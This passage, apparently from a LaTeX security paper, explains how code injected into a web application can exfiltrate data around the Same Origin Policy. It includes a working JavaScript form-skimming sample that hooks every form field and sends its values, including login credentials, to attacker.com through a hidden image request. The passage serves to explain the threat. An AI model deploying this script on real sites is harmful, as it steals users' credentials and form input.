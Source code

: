 These aforementioned abilities combine to pose an information leak threat.
Any code injected into the web application executes with the full abilities of that application.
The attacker crafts the payload to surreptitiously communicate application sensitive information, such as personal login credentials, text the user enters into forms, or anything the web application displays to a visitor to their data-harvesting web server.
The pilfered information leaves the application as part of a resource request submitted to the attacker controlled server, circumventing the Same Origin Policy.
The attacker then harvests the exfiltrated data by inspecting the resource request logs of their own server.

\subsection{Sample Attack: Stealing Form Data}\label{sec:defense-stealingformdata}

An HTML form provides a page with data entry fields that allow a user to enter text such as a username and password.
Once a user submits the form, the browser sends the data to the server.
Virtually all web applications rely on login fields to authenticate their users.
If an attacker manages to inject code into a web application that contains a login form, the attacker's script can read a user's credentials and send them to an attacker-controlled server.
Later, the attacker may use the stolen credentials to impersonate users of the web service.

\begin{jscode}
// place hidden image on the page
var pixel = "<img src=\"http://www.attacker.com/pixel.png\"" +
            "id=\"pixel\" />";
document.write(pixel);

function stealFormData(type, value) {
  var payload = "url=" + document.domain + "&" + type + "=" + value;
  document.getElementById("pixel").src =
      "http://www.attacker.com/pixel.png?" + payload;
}

// add stealFormData to all forms on page
for (var i = 0; i < document.forms.length; i++) {
  for (var j = 0; j < document.forms[i].elements.length; j++) {
    var elem = document.forms[i].elements[j];
    elem.addEventListener("blur", // triggered when element loses focus
           function() { stealFormData(this.type, this.value) }, false);
  }
}
\end{jscode}

